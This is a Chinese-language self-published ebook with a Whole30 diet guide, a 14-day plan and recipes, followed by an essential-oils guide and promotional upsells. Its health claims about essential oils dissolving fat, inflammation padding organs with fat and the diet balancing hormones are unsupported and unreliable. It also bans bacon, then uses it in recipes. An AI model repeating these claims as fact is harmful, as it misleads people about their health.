考虑提前规划餐食，以降低向嘴馋屈服的风险。这一点在蛋白质来源方面尤其重要，因为这些食物会帮助你在计划初期应对最初的饥饿感。在冰箱里备好富含蛋白质的食物，如野生鲑鱼、金枪鱼、牛肉或鸡蛋。也要确保数量充足。说到备餐，一定要在食品柜里备好香料和酱料，因为它们会帮助你度过最困难的时期。

明智的建议：不要像个受害者一样完成整个饮食计划。相反，利用你可用的资源，让这个改变尽可能愉快。不要把时间花在想着你不能吃的食物上；相反，用允许的食物尝试新食谱。

### 为什么应该选择全食物？

食物是身体的燃料。它赋予我们生命，确保维持最佳健康状态。不幸的是，由于我们生活在消费主义时代，我们越来越远离简单而洁净的食物。广告力量强大，鼓励我们购买深度加工、充满添加剂和化学防腐剂的产品。我们消费的食物并不健康，使我们感到精力耗尽、饱受疼痛之苦，并不断与肥胖作斗争。

在肥胖与消费主义的时代，Whole30饮食理念主张回归更简单的时代，那时食物是身体的燃料。它鼓励这样一段时间：身体从过去摄入的不良食物中恢复，新陈代谢恢复正常运作，人真正经历改变。Whole30不仅仅是一种饮食，更是一种心态的转变；当人回归完整而简单的食物时，改变不仅发生在生理层面，也发生在心理层面。

如果你厌倦了似乎不起作用的饮食法，觉得是时候改变了，你应该选择Whole30。在很短的时间内，你就会看到胃肠健康得到改善，体重以自然方式下降。它将帮助你平衡激素水平，减少与错误饮食选择相关的炎症，并保证更高的能量水平。你的整体表现会得到改善，你会睡得更好，而且你一定会完全忘记深夜对食物的渴望。


## 第 2 章：需要了解的关键理念

### 应避免的事项

首先，你应该从饮食中消除糖和所有含糖产品。这包括天然糖和人工糖，因此你将不得不告别枫糖浆、龙舌兰糖浆、蜂蜜、Equal和甜菊糖等产品。同样重要的是，检查你购买的每种产品的标签，因为它可能隐藏着糖的来源。酒精也是禁止的，包括用于烹饪食物时。尽管这听起来像是显而易见的话，你也应该从生活中消除烟草（为新的改变清空过去）。

另一个被列入“禁止”清单的主要食物类别是谷物。在这个类别中，你会找到：藜麦、大米、玉米、燕麦、大麦、黑麦和小麦。这些只是几个例子，但一般来说，你必须避免所有涉及谷物的东西。和糖一样，一定要阅读各种产品的标签，因为小麦和其他谷物经常作为基本成分被包含在内。

豆类，如豆子、豌豆、扁豆、鹰嘴豆和花生，也在禁止清单上。由于不允许食用花生，你可以理解为什么花生酱也完全不能吃。大豆和任何大豆衍生产品也是如此，比如酱油或豆腐。请记住，大豆衍生产品经常被用作各种产品中的乳化剂，所以再检查一下标签上的卵磷脂。

乳制品应避免，无论是来自牛、羊还是山羊。不允许奶油、奶酪或酸奶。这条规则的唯一例外包括酥油和澄清黄油。你还必须对味精、亚硫酸盐和卡拉胶说不，因为这些是加工食品或饮料中常含的添加剂。作为一般规则，避免使用允许的食材准备对你不利的餐食。你唯一愚弄的人是你自己，记住，煎饼仍然是煎饼。

### 关键食材

以下是全食物饮食计划中需要考虑的关键食材：

- 澄清黄油或酥油——购买黄油并学习如何澄清它
- 果汁——在某些食谱中，它可以用作甜味剂
- “豆荚类”豆类——雪豆、甜脆豌豆和四季豆
- 醋——大多数形式都可接受（白醋、香醋、苹果醋等）
- 盐——尽管加碘食盐含有糖，但它被接受（无糖规则的唯一例外）
- 杏仁粉——用于鱼/肉裹粉、酱汁增稠
- 苹果酱——推荐作为关键食材，只要它是无糖的
- 牛肉或鸡肉高汤——自己准备，避免购买现成的
- 肉类——鸡肉、牛肉
- 鱼类——金枪鱼、野生三文鱼
- 蔬菜——罐装或新鲜（最好新鲜）；推荐选择包括南瓜、西葫芦或红薯
- 可可——用于增添风味的极佳香料
- 椰子酱——也称为椰子奶油
- 椰子——可作为零食食用，片状或丝状；推荐——有机椰子（无添加亚硫酸盐）
- 椰奶——最佳选择是全脂（无亚硫酸盐）
- 椰子油——最佳选择是未精炼的
- 咖喱酱——如果你热爱印度或亚洲菜肴，这是必不可少的食材
- 鱼露——避免含糖的产品（阅读标签）
- 辣酱——再次阅读标签，确保不含任何禁止成分
- 肉干——完美的零食，只要没有添加糖
- 芥末——需要阅读标签（无糖或淀粉）
- 坚果和种子——美味的零食，可生吃或烤制
- 坚果酱——有机、无添加糖
- 橄榄——可罐装或新鲜食用，任何品种（无添加亚硫酸盐）
- 橄榄油——基本食材，无论你想准备沙拉酱、酱汁还是整顿饭（你甚至可以用它制作清淡的自制蛋黄酱）
- 干果——不宜大量食用
- 番茄——多种菜肴的关键食材
- 泡菜——只要标签上没有禁止成分，就允许食用。

### 购买食品杂货

你的购物清单的首要任务应该是动物蛋白，因为肉类、鱼类和鸡蛋应满足你对这些营养素的需求。在肉类方面，一定要寻找草饲或有机品种。多买一些并保存在冰箱里供以后餐食使用。钱不够？寻找更便宜的替代品，如牛肉、羊肉或山羊肉。将鸡肉和猪肉放在第二位。购买有机放养鸡蛋，因为这些不太贵，仍然是良好的蛋白质来源。至于肉类，始终选择瘦肉部位，并确保在烹饪前去除脂肪和皮。对加工肉类说不，如培根或香肠，因为这些不是健康饮食的一部分。

一旦你涵盖了蛋白质，就继续购买蔬菜，并确保储备充足。始终选择本地和应季的蔬菜，因为这些相当实惠，并提供最高量的营养。购买营养丰富的蔬菜是个好主意，因为这将帮助你控制饥饿感。至于经济实惠的选择，可以考虑冷冻蔬菜。至于水果，同样的规则适用：本地和应季。非应季的水果通常很贵，而且不那么新鲜美味。如果你在寻找便宜的替代品，可以考虑冷冻水果，比如浆果。

最后一个要处理的类别是脂肪。将油、坚果和种子加入你的购物清单，记住，一个产品贵并不意味着它也健康。选择明智购物，购买罐装椰奶或牛油果等产品。两者都提供足够数量的健康脂肪，而且全年都有。购买椰子油和橄榄油放在食品柜里，不要忘记澄清黄油或酥油。至于坚果和种子，始终选择生的或干烤的品种。并确保不要将它们变成你的主要脂肪来源，因为这不是健康的选择。

### 外出就餐（餐厅）

在节食期间外出就餐似乎是一项不可能完成的任务。然而，稍微准备一下，你就可以外出享受一顿美餐，同时坚持你的饮食。所以，你想做的第一件事是在线查看餐厅的菜单；这样，你可以确保有美味的东西可以吃，而不必担心任何禁止的成分。

仅仅因为你在节食，并不意味着你必须向所有人解释自己。无论你做什么，人们都会评判你，所以不要浪费时间试图说服别人你为什么开始这个改变。好好吃顿晚餐，享受自己。然而，困难的部分将是与人共餐，并看到别人盘子里你不允许吃的食物。这就是需要坚强意志的地方。专注于你自己的盘子和美味的食物，忘记你不能吃的食物。想想你感觉有多好，并把那种情绪与你当前正在吃的食物联系起来。这将帮助你度过这个困难的部分，并鼓励你很快再次外出！

## 第 3 章：14 天计划

### 概述

尽管原始计划设计为遵循30天，但你可以从该计划的较短版本开始这条新道路。14天计划旨在帮助你改变饮食习惯，让你的身体重新熟悉健康的饮食习惯。正如你将在下面的指南中看到的，每一天都会带来不同的东西，你可能会想放弃。然而，你必须不断提醒自己为什么一开始就走上这条路，不要放弃。最终，你会看到这一切都是值得的。

### 14天计划（指南）

### 第1天——向改变问好

第一天，你可能会在多种情绪之间周旋。一方面，你会感到充满能量，知道一个大改变即将到来。另一方面，你会担心它也会让人不堪重负。而且，是的，你会花很多小时想知道没有你最喜欢的食物该怎么生活。通过拥抱改变以及随之而来的一切美好事物来开始你的冒险。

### 第2-3天——最初的后遗症出现

这些天你很有可能经历头痛、各种疼痛和酸痛，更不用说你会感到相当迷糊。当你期望感觉很好时，这怎么会发生？好吧，想想你已经习惯吃的食物。它们富含糖、碳水化合物，几乎不提供营养。基本上，你宿醉的强度直接受到你在开始计划前摄入的“坏”食物数量的影响。所以，不要专注于丑陋的一面，放松并度过美好的一天。确保保持水分，并尝试通过体育锻炼来补偿。只是不要放弃。

### 第4-5天——暴躁情绪占据上风

早晨。太阳升上天空。你不再感到迷糊，你感觉这将是很棒的一天。直到你起床。你突然感到暴躁，并明白这种感觉会变得更加强烈。每个人似乎都很烦人，而且

哪怕最微小的差错也可能让你变得相当暴躁。别紧张。这只是你的大脑在索取它已经习惯获得的奖励。在没有糖和碳水化合物的情况下，大脑还不知道如何运转……暂时如此。所以，它会让你感到烦躁、紧张，甚至焦虑。还是那句话，放慢节奏，并务必请你所爱的人原谅你。

### 第6-7天 – 该小睡一下了
在这两天里，你会发现自己比平时需要更多睡眠。无论你多么努力，你都会发现自己无法像期望的那样正常运转。这是因为你的大脑以及身体的其他部分已经学会了依赖糖来运转。在不知不觉中，你已经把大脑训练成每隔几小时就需要获得持续的糖分供应。现在，当你即将改变这一点时，你的大脑（连同身体的其他部分）会经历一段重新调整期。别担心，只要确保让大脑得到必要的休息。这会让适应过程更容易度过。而且，好消息是，你已经完成该计划的一半了！

### 第8-9天 – 我怎么会体重增加了？
当有人向你介绍一个新的饮食计划时，你首先想到的是实际的减重效果。所以，当你站上体重秤时，你期望数字变小，而不是变大。记住，随着身体适应新的饮食，体重增加几磅是正常的。你不再依赖缺乏营养的食物，并且除了小幅增重外，还可能出现其他“调整期”症状，如腹胀、腹泻或便秘。别担心，随着肠道层面的炎症消退、愈合过程开始，这些症状很快就会消失。一旦你的身体开始高效地处理这些新食物，你也就会开始减重。

### 第10-11天 – 诱惑与放弃
在这两天里，时间似乎会过得更慢。既然饮食计划的新鲜感已经消失，你可能会想放弃并回到不良的饮食习惯中。尽管你已经设法适应了新常规，但诱惑似乎越来越包围着你，让你既烦躁又不耐烦。别急，小徒弟，耐心是关键。不要放弃，始终想着长期益处。如果你想变得健康并减掉所有多余体重，就要对诱惑说不，并继续走这条路。

### 第12-13天 – 胜利在望
在这几天里，你会感觉自己仿佛登上了珠穆朗玛峰之巅。你将已经战胜诱惑，大多数负面症状现在也已消失。所以，像大多数人一样，你可能会想给自己一份奖励（尤其是因为到现在，你一直被各种美食梦折磨得够呛）。如果你意志坚强，就先别急着庆祝。再等一两天，然后好好庆祝。

### 第14天 – 终于到了
你从未想过会到来的这一天终于来了。现在你完全有理由庆祝。你已经成功告别了富含糖和碳水化合物、却无法为你提供营养价值的食物。相反，你在生活中迎来了健康的食物选择，并设法远离了诱惑。你没有放弃，现在你要做的就是继续走这条路。保持坚强，并记住健康是你生命中最重要的财富。

## 第 4 章：早餐
早餐是一天中最重要的一餐，但不幸的是，我们许多人已经习惯了吃错东西。当你告别煎饼和百吉饼时，一时不知道有什么替代选择，这很正常。让我们来看看一些最美味、营养最丰富的全食物早餐食谱。

### #1 香辣三文鱼意式煎蛋饼
配料：椰子油（1汤匙）、青椒（1个）、洋葱（1个）、蒜瓣（2瓣）、樱桃番茄（1杯半）、孜然（1茶匙）、红椒粉（1/2茶匙）、鸡蛋（6个）、野生罐装三文鱼（1/2杯）、香菜（2汤匙）、盐和胡椒适量

制作方法：在煎锅中用中火烹制切碎的青椒和洋葱；加入大蒜，然后加入孜然、红椒粉、盐和胡椒。加入切成两半的番茄，然后加入野生三文鱼。倒入鸡蛋，加入适量盐和胡椒。将平底锅放入烤箱，以350°F烤一刻钟。撒上新鲜香菜，尽情享用！

### #2 红薯乳蛋饼
配料：红薯（3个）、椰子油（2汤匙）、培根（3片）、青葱（1把）、鸡蛋（10个）、盐（3/4茶匙）、肉豆蔻（1/4茶匙）

制作方法：先将烤箱预热至400°F。将红薯切成小块，与椰子油和盐混合。放入烤箱烤约20分钟。红薯冷却时，在煎锅中煎培根。培根冷却后切成丁。用培根留下的油脂烹制青葱。将烤箱温度降至350°F，把一半红薯、青葱和培根放入烤盘。再铺一层，然后倒入打散的鸡蛋（加入肉豆蔻和盐）。烤约40分钟或至金黄色。尽情享用！

### #3 金枪鱼青橄榄饼
配料：冷藏的烤红薯（1杯）、熟花椰菜（1/2杯）、罐装金枪鱼（1/4杯）、青橄榄（12颗）、海盐（适量）、椰子油（1汤匙）

制作方法：将烤红薯捣成泥。将其他配料加入碗中，用海盐调味。做成大小相等的饼，在中火煎锅中煎至金黄。尽情享用！

### #4 早餐沙拉
配料：橙子（1/2个）、黑李子（1/2个）、芹菜茎（1根）、黄瓜（1/4杯）、沙葛（1/4杯）、牛油果（1/2个）、薄荷/欧芹（1汤匙）、柠檬汁（1个柠檬的量）、盐和胡椒适量

制作方法：将所有配料放入碗中混合。加入鲜榨柠檬汁以及适量盐和胡椒。尽情享用！

### #5 早餐碗（墨西哥风味）
配料：椰子油（1茶匙）、洋葱（1/2个）、彩椒（1杯）、猪肉末/鸡肉末（1/2磅）、干牛至（1/2茶匙）、孜然粉（少许）、牛油果（1个）、莎莎酱（2-4汤匙）、盐和胡椒适量

制作方法：先在煎锅中烹制洋葱和彩椒。将牛油果捣成泥，放在一旁。加入猪肉或鸡肉，然后加入牛至和孜然。用适量盐和胡椒调味。将食物盛入碗中，加入牛油果泥和莎莎酱。

## 第 5 章：午餐
如果你以健康的早餐开启了一天，就应该确保午餐也同样健康。在本章中，你会找到几份全食物午餐食谱，旨在为你提供身体所需的所有营养。

### #1 泰式鸡汤
配料：鸡胸肉（1磅）、芝麻油（1茶匙）、洋葱（1个）、彩椒（2个）、夏南瓜（2个）、甜脆豌豆（6盎司）、泰式绿咖喱酱（2-3汤匙）、椰奶（1罐）、鱼露（1汤匙）、椰子氨基酸酱油（1汤匙）、鸡汤（4杯）、干罗勒（1-2汤匙）、青柠汁（1/2个青柠的量）、新鲜香菜（适量）、青葱（1把）

制作方法：用芝麻油煸炒洋葱和彩椒，然后加入咖喱酱。将椰奶倒入锅中，然后加入夏南瓜、椰子氨基酸酱油、鱼露、干罗勒和鸡汤。煮至微沸，然后加入鸡肉。鸡肉熟透后，加入甜脆豌豆。上桌前加入青柠汁、新鲜香菜和青葱。尽情享用！

### #4 香菜鸡肉沙拉
配料：鸡肉（4杯）、西葫芦（2杯）、椰浆（1/3杯）、干蒜（1茶匙）、新鲜香菜（1/2杯）、柠檬汁（1/2个柠檬的量）、盐适量

制作方法：将除鸡肉外的所有配料放入搅拌机。将鸡肉切碎，加入搅拌好的混合物中。尽情享用！

### #5 西葫芦面条沙拉配番茄和橄榄
配料：西葫芦（5个）、海盐（2茶匙）、橄榄油（1汤匙）、白香醋（1汤匙）、樱桃番茄（1杯）、去核黑橄榄（1杯）

制作方法：将西葫芦削皮，并把刨成的面条撒上盐（沥去多余水分）。加入橄榄油和醋。然后加入切碎的番茄和橄榄。尽情享用！


## 第 6 章：晚餐

到了准备晚餐的时候，你会希望确保晚餐清淡、快捷又简单。在本章中，你会找到若干美味的全食物食谱，推荐用于健康晚餐。让我们来看看吧。

### #1 泰式牛肉沙拉

食材：牛西冷（1 ½ 磅）、香菇（16 朵）、鲜姜（1 汤匙）、蒜瓣（4 瓣）、红辣椒碎（1 茶匙）、奶油生菜（4 杯）、红甜椒（1 个）、红洋葱（1/2 个）、香菜（1/4 把）、罗勒叶（16 片）、鱼露（1/4 杯）、青柠汁（2 汤匙）、椰子油（1/4 杯）、盐和胡椒适量

做法：取一个碗，将牛肉与香菇、姜、蒜和红辣椒碎混合。调味后放在一旁。另取一个碗，将生菜与甜椒、洋葱、新鲜香菜和罗勒叶混合。将第一种混合物放入平底锅中翻炒，炒至牛肉熟透。将鱼露加入锅中。把所有内容倒入另一个碗中。享用吧！

### #2 洋葱汤

食材：椰子油（2 汤匙）、洋葱（8 杯）、香醋（1 汤匙）、猪肉高汤（6 杯）、盐（1 茶匙）、月桂叶（2 片）、新鲜百里香（2 枝）

做法：将洋葱放入锅中煸炒。加入香醋，然后加入猪肉高汤。取月桂叶和百里香加入锅中。用盐调味。将混合物放入高压锅中烹煮，然后搅拌汤（务必先取出月桂叶和百里香）。享用吧！

### #3 三文鱼配牛油果莎莎酱

食材：三文鱼（2 磅）、孜然（1 茶匙）、烟熏红椒粉（1 茶匙）、洋葱粉（1 茶匙）、椰子油（1 汤匙）、海盐和胡椒适量；牛油果莎莎酱：牛油果（2 个）、红洋葱（1 个）、墨西哥辣椒（3 个）、青柠汁（3 个青柠）、橄榄油（2 汤匙）、新鲜香菜（2 汤匙）、海盐和胡椒适量

做法：取一个碗，加入牛油果莎莎酱的所有食材。然后，将碗放入冰箱。将所有三文鱼香料混合，并把香料裹在鱼上。将三文鱼放入烤箱烘烤，搭配牛油果莎莎酱食用。享用吧！

### #4 腰果牛肉炒菜

食材：草饲牛肉末（1 ½ 磅）、甜椒（1 个）、洋葱（1 个）、荸荠（1 罐）、生腰果（1/2 杯）、鲜姜（2 汤匙）、鲜蒜（1 汤匙）、椰子氨基酸（4 汤匙）、盐和胡椒适量

做法：将牛肉翻炒至变成棕色。加入鲜姜、蒜和椰子氨基酸。然后加入甜椒、洋葱和荸荠。用盐和胡椒调味。加入烤腰果并上桌。享用吧！

### #5 牛油果BLT鸡蛋沙拉食谱

食材：牛油果（1 个）、鸡蛋（6 个）、葡萄番茄（3/4 杯）、培根条（4 条）、葱花（1/2 杯）、蒜粉（2 茶匙）、喜马拉雅海盐（1/2 茶匙）

做法：将鸡蛋煮至全熟。将培根条煎至酥脆。将鸡蛋与牛油果、蒜粉和喜马拉雅盐混合。加入切丁的培根条、对半切开的番茄和切碎的葱花。享用吧！

## 第 7 章：零食

全食物计划基于健康零食的理念，帮助你在两餐之间满足饥饿感。在本章中，你会找到若干健康零食建议。请务必逐一浏览并尝试它们。

以下是可以考虑的零食：

- Lara 能量棒
  - 水果和坚果的混合物
  - 用肉桂和肉豆蔻调味
  - 不含糖或人工成分
  - 有多种口味可选（椰子奶油派、香蕉面包、巧克力椰子咀嚼棒或腰果饼干）
  - 避免含花生的口味（不允许）
- 干果
  - 推荐——苹果干片
  - 用肉桂调味
  - 也可能含有柠檬酸
- 混合坚果
  - 酥脆咸香的零食
  - 避免用菜籽油/大豆油烹制的混合坚果（不允许）
  - 混合物中不允许有花生
- 冰沙
  - 食材：冷冻浆果、菠菜、羽衣甘蓝、亚麻籽粉、香蕉、杏仁奶
  - 做法：将所有食材搅拌至顺滑，然后享用。
- 苹果配肉桂和杏仁酱
  - 切苹果片，并在上面撒肉桂
  - 搭配少量杏仁酱食用
  - 避免含糖的杏仁酱（不允许）
- 牛油果酱
  - 食材：牛油果、番茄、香料（牛至）
  - 做法：将所有食材搅拌混合，食用前冷藏。
- 苹果酱配肉桂
  - 推荐——无糖苹果酱品种
  - 有助于减少对糖的渴望
  - 可以加入坚果（额外蛋白质来源）
- 橄榄
  - 无论哪种品种都是完美零食
  - 推荐——夹心橄榄
- 草饲牛肉干
  - 避免含人工色素的产品
- 马可纳杏仁
  - 咸香美味的零食
  - 避免用菜籽油烤制的产品（不允许）
  - 你可以购买生杏仁，并加入海盐或香料
- 南瓜籽
  - 满足饥饿感的完美零食
  - 也可以将新鲜南瓜的籽放入烤箱烘烤。

## 结论

再次感谢你下载这本书！

我希望这本书能帮助你了解全食物可以多么简单、愉快且有效。

下一步就是开始尝试这些不同的食谱，并体验它们带来的健康益处。

最后，如果你喜欢这本书，我想请你帮个忙：你愿意在亚马逊上为这本书留下评论吗？不胜感激！

[点击此处为这本书在亚马逊上留下评论！](#)

谢谢，祝你好运！

## 额外福利：获取更多由我提供的免费视频和书籍！

感谢阅读我的书！希望你能从中获得极好的价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮箱地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 更多由我撰写的书籍
- 制作特色菜肴的视频
- 我最喜欢的健康相关产品的信息
- 以及更多！

**点击此处获取所有这些信息！**

嘿，希望你喜欢我的书。我想给你更多价值，所以想提供一些免费内容，以及一种我最近尝试过的饮食法的信息，它帮我减掉了顽固的多余脂肪。

这个计划给了我策略，我用它减掉了不想要的顽固脂肪，感觉年轻了10岁！

这个计划叫 The Fat Diminisher。这种饮食法在帮助人们实现减重目标方面取得了巨大成功。这个计划不仅能帮助你减掉不需要的脂肪，还会教你如何永久保持减重效果！

在短时间内减重一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要想看到减重进展或塑造完美身材，需要数月甚至数年的艰苦努力。但这根本不是真的。

人体具有高度适应性，能够在极短的时间内发生变化。想一想：如果人们能在数周不健康饮食后迅速增加大量脂肪，那么他们难道不能在数周健康饮食后迅速减掉大量体重吗？嗯，他们绝对可以。

但是，要快速减重，你需要吃什么？从低碳水、低脂肪、无糖、高蛋白，甚至“穴居人”饮食法——市面上的选择如此之多，以至于普通人会非常困惑，不知道该用哪种饮食法来快速减重。其中一些饮食法甚至对应该和不应该吃什么提供了相互矛盾的信息。嗯，这一切即将改变。

*<u>立即查看视频！</u>*

# 精油神奇功效初学者指南

用于减重、芳香疗法、缓解压力和抗衰老的精油配方

我最喜欢的饮食法的额外信息

以及更多免费和特价书籍，请访问 [KindleBookSpot.com](KindleBookSpot.com)


## 目录

- 引言
- 第1章 使用精油减肥
- 第2章 使用精油进行芳香疗法
- 第3章 使用精油缓解压力
- 第4章 使用精油抗衰老
- 结论

## 引言

我想感谢你，并祝贺你下载了《精油神奇功效初学者指南》这本书。

本书包含经过验证的步骤和策略，帮助你感觉更健康、提升精力，并过上更快乐的生活方式。

为什么大多数人在想到健康和健身时，第一反应是感到气馁，并表现得好像这个想法根本不存在？当然，我们不可能都成为健身专家，但如果你真的想恢复体形、感觉更好，有一些技巧可以帮助你打造一直想要的身材。无论是减肥还是拥有更多精力，使用精油都是一个很好的开始。

虽然随着年龄增长，你身体的天然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善身体和心理健康，而阅读本书就是迈向一直想要的生活的第一步。

几个世纪以来，人类一直在使用精油来促进健康、改善福祉。即使在今天，拥有所有现代医疗技术和大量可用药物，精油在促进舒缓、放松以及其他健康积极效果方面仍然有效。

了解哪些精油可用于特定目的。本书将引导你全面了解如何最好地使用这些精油，以及如何安全地使用它们。

### 本书将教你：

- 什么是精油
- 为什么你应该使用精油

## 如何自制
以及更多内容！

那么你还在等什么？今天就开始阅读，改变你的生活方式吧！

再次感谢你下载本书，希望你喜欢它！

别忘了查看我最喜欢的饮食法之一，并在底部了解我如何通过三周饮食法快速减掉顽固多余脂肪的策略。

## 在我们开始之前…… 额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过提供更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多内容！

[点击此处获取所有这些信息！](#)

## 第 1 章 使用精油减肥

精油通常主要用于芳香疗法，以达到镇静、缓解压力和整体感觉良好的目的。减肥是使用精油带来的长长好处清单中的一项，尽管大多数人并未意识到这一点。如果使用正确且选对精油，精油可以帮助有效且安全地减肥。

### 葡萄柚精油

这种精油更常被用作消毒剂和防腐剂。葡萄柚精油可以帮助减肥。其清新、振奋的甜香有助于达到理想体重。它通过以下作用实现：

- 抑制食欲
- 提高代谢率
- 增加能量
- 增加耐力
- 减少腹部脂肪堆积

葡萄柚精油有助于减肥，是因为它含有天然化合物。这些化合物有助于实现理想体重的各个步骤。其中一种化合物是诺卡酮。这种天然化合物会刺激AMPK，这是一种控制能量水平和代谢率的体内酶。当诺卡酮激活AMPK时，骨骼肌、肝脏和大脑中的化学反应会加速。这种反应可改善身体表现、增加耐力、减少体重增加并降低体脂。每周至少接触葡萄柚3次、每次15分钟的研究表明，它可以降低食欲并加速减肥。

葡萄柚中另一种有助于减肥的化合物是柠檬烯。它能促进体内脂肪分解。这一过程涉及身体脂肪和蛋白质的分解，从而有助于减肥。

### 柠檬精油

柠檬精油通过冷压柠檬皮获得。这种精油具有干净、清爽、提神的香气，并带有一丝微酸的尾调。

这是另一种可以帮助你减肥的精油。这一目标通过以下作用实现：

- 抑制体重增加
- 提高能量水平
- 改善情绪
- 缓解疼痛

柠檬精油含有化学化合物柠檬烯。它在体内具有非常强大的脂肪溶解作用。如果与葡萄柚一起使用，会有更强的脂肪燃烧和更多体重减轻。

改善情绪有助于减肥。除了改善负面情绪外，去甲肾上腺素水平也会升高。这是一种压力激素和神经递质，在“战斗或逃跑”机制中发挥重要作用。去甲肾上腺素水平升高可促进脑组织更好地氧合。由此，认知功能得到改善。

大脑的其他功能也会改善，例如更好的心率调节。这会导致心率增加和血流改善。这些状况有助于肌肉更好、更快地工作。当肌肉功能更好时，就更容易进行能够燃烧所有多余脂肪的运动。柠檬精油还有助于缓解运动后的肌肉疲劳和酸痛。

### 薄荷精油

薄荷精油的清凉感使其成为有史以来最受欢迎的精油之一。这种精油含有化合物薄荷醇，具有清凉和镇静效果。

薄荷精油通过以下方式帮助身体：

- 减少食欲
- 改善消化
- 提升情绪
- 增加能量
- 提高精神警觉性

薄荷精油中薄荷醇含量高达70%。几个世纪以来，这种精油被用于药用目的，特别是缓解消化不良等消化问题。它还可以放松肌肉，缓解酸痛和疼痛。如果与葛缕子油混合，薄荷精油可以放松胃部肌肉。这种混合物可减少腹胀并改善胆汁流动。这些有助于改善食物消化和沿胃肠道的运动。食物通过胃肠道更快。

这种精油对食欲具有天然抑制作用。一项研究发现，仅吸入薄荷精油的气味就能降低饥饿水平。摄入的卡路里也更少。这项研究的参与者每2小时吸入一次薄荷精油的气味。

### 肉桂精油

这种精油取自肉桂树（*樟属* sp.）的叶子和内树皮。肉桂精油的气味温暖而甜美。

对身体的益处包括：

- 改善胰岛素敏感性
- 更好地调节血糖水平
- 减少炎症

肉桂精油对胰岛素的影响对体重有巨大作用。胰岛素是一种在调节血糖水平中起主要作用的激素。它将血液中的糖转化为可供各种组织使用的能量。或者，它可以将血液中的糖转化为脂肪，储存在组织内。如果发生胰岛素抵抗，细胞会对胰岛素的作用产生抵抗。身体不是燃烧血液中的部分糖，而是错误地将大部分糖储存为脂肪。

体重增加发生，减肥尝试变得困难。胰岛素抵抗会导致血糖水平升高，从而触发更多胰岛素分泌。这两种情况都会加重胰岛素抵抗，并增加患2型糖尿病的风险。肉桂提取物可改善细胞对胰岛素的敏感性，促进更好地调节血糖水平。身体使用、代谢和储存糖的方式得到改善，有助于调节脂肪储存并促进更好的脂肪燃烧。

炎症在体重增加中也起着重要作用。急性炎症对身体有益。它保护身体免受进一步伤害。它也是对抗感染的重要初始反应之一。慢性或长期炎症是对体内组织的威胁。为了保护自己，身体会垫护不同器官。这种垫护是通过在器官周围积累更多脂肪形成的。而且，由于积累的脂肪充当保护性垫层，任何燃烧它们的尝试（即通过运动和饮食减肥）都将被证明几乎不可能。

身体不会轻易放弃它的保护，除非炎症消失。肉桂在这方面有所帮助。这种芬芳的精油可以抑制体内炎症分子的释放。这是减少炎症的非常重要的一步。一旦炎症消退，身体就会更愿意减掉脂肪。


## 其他值得尝试的精油

除了上文讨论的精油外，还有更多值得尝试的精油。这些精油在促进减肥方面与上文讨论的精油同样有效。

- 茴香
- 佛手柑
- 檀香
- 芹菜籽
- 丁香
- 橘子
- 甜橙
- 蜜橘
- 柠檬草
- 姜根
- 绿薄荷
- 尤加利
- 广藿香
- 丝柏
- 杜松果
- 月桂
- 迷迭香
- 茉莉
- 牛膝草
- 芳樟木
- 玫瑰天竺葵
- 薰衣草

## 如何使用精油减肥

安全使用与选择正确的精油同样重要。吸入是最常见的使用方法，也是风险最低的方法。某些精油直接涂抹在皮肤上时可能引起过敏反应。切勿吞服或加入食物中。

只要精油用基础油适当稀释，局部外用就是安全的。在大面积涂抹皮肤前，先通过斑贴试验测试是否过敏。避免涂抹精油的皮肤暴露在直射阳光下。使用柑橘类精油时这一点尤为重要。涂抹精油后12至18小时内避免直射阳光。

### 减脂按摩油

将丝柏、柠檬和葡萄柚精油各5滴混合。用¼杯杏仁油稀释。按摩大腿、上臂和腹部等部位。

### 抗橘皮组织按摩油

将10滴葡萄柚精油和5滴迷迭香精油混合。加入姜、薄荷和丝柏精油各2滴。用橄榄油、荷荷巴油或杏仁油等基础油稀释。

### 焕活沐浴

准备一缸温水。加入姜、檀香、葡萄柚、柠檬和甜橙精油各5滴。

### 抑制食欲扩香

将40滴蜜橘精油与20滴柠檬油、12滴姜油和12滴薄荷油混合。将少量混合油加入扩香器。

### 促进新陈代谢泡浴

准备一缸温水。将2汤匙荷荷巴油、迷迭香和丝柏精油各10滴、葡萄柚精油8滴混合在一起。将这种混合油加入浴水中。

### 抑制食欲膏

将½杯橄榄油、80滴茴香精油、40滴佛手柑油和24滴广藿香精油混合。用此混合物按摩腹部。

## 第 2 章 使用精油进行芳香疗法

芳香疗法最为人熟知的是利用精油的香气来促进放松和缓解压力。精油复方也可用于缓解常见不适。这些精油还用于促进整体健康和福祉。

## 按摩油

对于按摩油或身体油，精油始终要用基础油稀释。基础油是其他草本油或植物油，如椰子油或荷荷巴油。稀释很重要，可以避免精油直接用于皮肤时产生任何不良反应。虽然精油通常安全，但有些精油可能含有对敏感个体产生刺激的化合物。

安全稀释指南包括：

*用于婴幼儿的精油：* 每盎司基础油加入3-6滴，制成0.5%至1%的稀释液，通常对这些年幼者安全。

*用于成人的精油：* 根据不同用途会采用几种稀释比例。常见稀释比例有：

- 2.5%稀释：每盎司基础油加入15滴所选精油
- 3%稀释：每盎司基础油加入20滴所选精油
- 5%稀释：每盎司基础油加入30滴所选精油
- 10%稀释：每盎司基础油加入60滴所选精油

按摩油通常用于以下情况：

- 焦虑/压力
- 偏头痛
- 头痛
- 失眠
- 风湿病和关节炎（亚急性期）
- 缓解急性或慢性疼痛
- 慢性肌肉或关节疼痛
- 减轻炎症
- 缓解肌肉痉挛
- 增强免疫力
- 放松和舒缓神经系统
- 孕期和分娩按摩
- 作为扭伤、拉伤及其他重复性运动损伤治疗的一部分

## 面部乳液、面霜和油

精油被加入基础的无香面部乳液和面霜中以增强其效果。面部油可以通过将精油与基础（草本/植物）油混合制成。

